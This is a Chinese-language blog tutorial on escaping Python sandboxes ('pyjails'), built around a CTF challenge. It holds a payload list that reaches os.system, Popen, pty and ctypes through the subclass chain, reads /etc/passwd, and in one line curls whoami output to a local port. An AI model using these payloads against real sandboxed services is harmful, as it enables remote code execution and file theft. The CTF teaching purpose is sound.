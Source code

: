 ```yaml
---
title: pyjail bypass-03 绕过命名空间限制
date: 2023-05-30 10:23:57
categories:
- Python
tags:
- pyjail
toc: true
---
```



## 绕过命名空间限制

### 部分限制
有些沙箱在构建时使用 exec 来执行命令，exec 函数的第二个参数可以指定命名空间，通过修改、删除命名空间中的函数则可以构建一个沙箱。例子来源于 iscc_2016_pycalc。

```py
def _hook_import_(name, *args, **kwargs):
    module_blacklist = ['os', 'sys', 'time', 'bdb', 'bsddb', 'cgi',
                        'CGIHTTPServer', 'cgitb', 'compileall', 'ctypes', 'dircache',
                        'doctest', 'dumbdbm', 'filecmp', 'fileinput', 'ftplib', 'gzip',
                        'getopt', 'getpass', 'gettext', 'httplib', 'importlib', 'imputil',
                        'linecache', 'macpath', 'mailbox', 'mailcap', 'mhlib', 'mimetools',
                        'mimetypes', 'modulefinder', 'multiprocessing', 'netrc', 'new',
                        'optparse', 'pdb', 'pipes', 'pkgutil', 'platform', 'popen2', 'poplib',
                        'posix', 'posixfile', 'profile', 'pstats', 'pty', 'py_compile',
                        'pyclbr', 'pydoc', 'rexec', 'runpy', 'shlex', 'shutil', 'SimpleHTTPServer',
                        'SimpleXMLRPCServer', 'site', 'smtpd', 'socket', 'SocketServer',
                        'subprocess', 'sysconfig', 'tabnanny', 'tarfile', 'telnetlib',
                        'tempfile', 'Tix', 'trace', 'turtle', 'urllib', 'urllib2',
                        'user', 'uu', 'webbrowser', 'whichdb', 'zipfile', 'zipimport']
    for forbid in module_blacklist:
        if name == forbid:        # don't let user import these modules
            raise RuntimeError('No you can\' import {0}!!!'.format(forbid))
    # normal modules can be imported
    return __import__(name, *args, **kwargs)

def sandbox_exec(command):      # sandbox user input
    result = 0
    __sandboxed_builtins__ = dict(__builtins__.__dict__)
    __sandboxed_builtins__['__import__'] = _hook_import_    # hook import
    del __sandboxed_builtins__['open']
    _global = {
        '__builtins__': __sandboxed_builtins__
    }

    ...
        exec command in _global     # do calculate in a sandboxed  
    ...
```
1. 沙箱首先获取 `__builtins__`，然后依据现有的 `__builtins__` 来构建命名空间。
2. 修改 `__import__` 函数为自定义的`_hook_import_`
3. 删除 open 函数防止文件操作
4. exec 命令。

绕过方式：

由于 exec 运行在特定的命名空间里，可以通过获取其他命名空间里的 `__builtins__`（这个`__builtins__`保存的就是原始`__builtins__`的引用），比如 types 库，来执行任意命令：
```py
__import__('types').__builtins__
__import__('string').__builtins__
```
### 完全限制(no builtins)
如果沙箱完全清空了 `__builtins__`, 则无法使用 import,如下：
```py
>>> eval("__import__", {"__builtins__": {}},{"__builtins__": {}})
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
NameError: name '__import__' is not defined
>>> eval("__import__")
<built-in function __import__>

>>> exec("import os")
>>> exec("import os",{"__builtins__": {}},{"__builtins__": {}})
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
ImportError: __import__ not found
```

这种情况下我们就需要利用 python 继承链来绕过，其步骤简单来说，就是通过 python 继承链获取内置类, 然后通过这些内置类获取到敏感方法例如 os.system 然后再进行利用。

具体原理可见：[Python沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)

常见的一些 payload 如下:
#### RCE
```py
# os
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_wrap_close"][0]["system"]("ls")

# subprocess 
[ x for x in ''.__class__.__base__.__subclasses__() if x.__name__ == 'Popen'][0]('ls')

# builtins
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_GeneratorContextManagerBase" and "os" in x.__init__.__globals__ ][0]["__builtins__"]

# help
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_GeneratorContextManagerBase" and "os" in x.__init__.__globals__ ][0]["__builtins__"]['help']

[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_wrap_close"][0]['__builtins__']

#sys
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("ls")

[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'_sitebuiltins." in str(x) and not "_Helper" in str(x) ][0]["sys"].modules["os"].system("ls")

#commands (not very common)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "commands" in x.__init__.__globals__ ][0]["commands"].getoutput("ls")

#pty (not very common)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pty" in x.__init__.__globals__ ][0]["pty"].spawn("ls")

#importlib
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].__import__("os").system("ls")

#imp
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].__import__("os").system("ls")

#pdb
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pdb" in x.__init__.__globals__ ][0]["pdb"].os.system("ls")

# ctypes
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"].__import__('ctypes').CDLL(None).system('ls /'.encode())

# multiprocessing
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"].__import__('multiprocessing').Process(target=lambda: __import__('os').system('curl localhost:9999/?a=`whoami`')).start()
```
#### File

操作文件可以使用 builtins 中的 open，也可以使用 FileLoader 模块的 get_data 方法。
```py
[ x for x in ''.__class__.__base__.__subclasses__() if x.__name__=="FileLoader" ][0].get_data(0,"/etc/passwd")
```

## 参考资料
- [Python沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)
- [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/#%E5%89%8D%E8%A8%80)
- [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
- [python沙箱逃逸学习记录](https://xz.aliyun.com/t/12303#toc-11)
- [Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
- [[PyJail] python沙箱逃逸探究·上（HNCTF题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)
- [[PyJail] python沙箱逃逸探究·中（HNCTF题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)
- [[PyJail] python沙箱逃逸探究·下（HNCTF题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)
- [audited2](https://ctftime.org/writeup/31883)
- [【ctf】HNCTF Jail All In One](https://www.woodwhale.top/archives/hnctfj-ail-all-in-one)
- [HAXLAB — Endgame Pwn](https://ctftime.org/writeup/28286)
- [Python沙箱逃逸的n种姿势](https://ctftime.org/writeup/28286)
- [hxp2020-audited](https://pullp.github.io/writeup/2020/12/26/hxp2020-audited.html)
